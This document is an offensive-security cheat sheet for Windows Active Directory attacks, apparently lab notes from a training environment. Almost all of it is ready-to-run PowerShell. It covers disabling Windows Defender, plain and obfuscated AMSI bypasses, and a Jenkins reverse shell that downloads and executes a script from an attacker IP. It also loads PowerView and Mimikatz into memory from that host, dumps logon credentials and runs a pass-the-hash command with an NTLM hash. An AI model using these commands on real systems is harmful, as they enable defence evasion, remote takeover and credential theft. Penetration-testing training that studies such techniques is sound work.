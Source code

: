 # Antivirus & Detections

## Windows Defender

### Check Status of Defender

- **PowerShell Commands:**
  ```powershell
  Get-MpComputerStatus
  ```

- **Firewall Status Commands:**
  ```powershell
  netsh advfirewall show domain
  netsh advfirewall show private
  netsh advfirewall show public
  ```

### Disable Real-Time Monitoring

- **PowerShell Command:**
  ```powershell
  Set-MpPreference -DisableRealtimeMonitoring $true; Get-MpComputerStatus
  ```

- **Disable IOAV Protection:**
  ```powershell
  Set-MpPreference -DisableIOAVProtection $true
  ```

---

## AppLocker Enumeration

### With the GPO

- Registry Key Location: 
  ```
  HKLM\SOFTWARE\Policies\Microsoft\Windows\SrpV2
  ```
  - Keys: `Appx`, `Dll`, `Exe`, `Msi`, and `Script`.

### List AppLocker Rules

- **PowerShell Command:**
  ```powershell
  $a = Get-ApplockerPolicy -effective
  $a.rulecollections
  ```

---

## PowerShell

### Default PowerShell Locations in a Windows System

- `C:\windows\syswow64\windowspowershell\v1.0\powershell`
- `C:\Windows\System32\WindowsPowerShell\v1.0\powershell`

### Example of AMSI Bypass

- **PowerShell Command:**
  ```powershell
  [Ref].Assembly.GetType('System.Management.Automation.Ams'+'iUtils').GetField('am'+'siInitFailed','NonPu'+'blic,Static').SetValue($null,$true)
  ```

---

## Default Writeable Folders
```
- `C:\Windows\System32\Microsoft\Crypto\RSA\MachineKeys`
- `C:\Windows\System32\spool\drivers\color`
- `C:\Windows\Tasks`
- `C:\windows\tracing`
```

# Jenkins Shell Compromise

## Reverse Shell from Jenkins
```powershell
powershell.exe -c iex ((New-Object Net.WebClient).DownloadString('http://172.16.100.157/re_shell.ps1'));Invoke-PowerShellTcp -Reverse -IPAddress 172.16.100.157 -Port 443
```

## Bypass Anti-Virus
```powershell
sET-ItEM ('V'+'aR' + 'IA' + 'blE:1q2' + 'uZx') ([TYpE]("{1}{0}" -f 'F','rE'));(GeT-VariaBle("1Q2U"+"zX") -VaL).""A`ss`Embly"".""GET`TY`Pe""((""{6}{3}{1}{4}{2}{0}{5}"" -f'Util','A','Amsi','.Management.','utomation.','s','System')).""g`etf`iElD""(("{0}{2}{1}" -f 'amsi','d','InitFaile'),("{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,')).""sE`T`VaLUE""(${n`ULl},${t`RuE})
```

## Load PowerView Module in Memory
```powershell
iex (iwr http://172.16.100.157/PowerView.ps1 -UseBasicParsing)
```

## Verify with PowerView Command
```powershell
get-help Invoke-UserHunter
```

## Execute Commands on Remote Machine
```powershell
PS C:\Program Files (x86)\Jenkins\workspace\project0> Invoke-Command -ComputerName dcorp-mgmt.dollarcorp.moneycorp.local -ScriptBlock {whoami;hostname}
PS C:\Program Files (x86)\Jenkins\workspace\project0> whoami
```

## Load Mimikatz and Dump Hashes
```powershell
iex (iwr http://172.16.100.157/Invoke-Mimikatz.ps1 -UseBasicParsing)
```

## Create a New PSSession
```powershell
$sess = New-PSSession -ComputerName dcorp-mgmt.dollarcorp.moneycorp.local
Invoke-command -ScriptBlock {Set-MpPreference -DisableIOAVProtection $true} -Session $sess
Invoke-command -ScriptBlock ${function:Invoke-Mimikatz} -Session $sess
```

# Active Session and Dump Hashes

## Check Access and Dump Hashes
```powershell
Invoke-UserHunter -checkaccess
Find-LocalAdminAccess
```

# Confirm Local Admin Privileges
```powershell
Invoke-Command -ScriptBlock {whoami;hostname} -ComputerName dcorp-mgmt.dollarcorp.moneycorp.local
iex (iwr http://172.16.100.157/Invoke-Mimikatz.ps1 -UseBasicParsing)
$sess = New-PSSession -ComputerName dcorp-mgmt.dollarcorp.moneycorp.local
Invoke-command -ScriptBlock {Set-MpPreference -DisableIOAVProtection $true} -Session $sess
Invoke-command -ScriptBlock ${function:Invoke-Mimikatz} -Session $sess
```

# Dump Hashes Using Mimikatz
```powershell
Invoke-command -ScriptBlock ${function:Invoke-Mimikatz} -Session $sess

mimikatz(powershell) # sekurlsa::logonpasswords
```

## Pass-the-Hash with Mimikatz
```powershell
Invoke-Mimikatz -Command '""sekurlsa::pth /user:svcadmin /domain:dollarcorp.moneycorp.local /ntlm:b38ff50264b74508085d82c69794a4d8 /run:powershell.exe""'
```
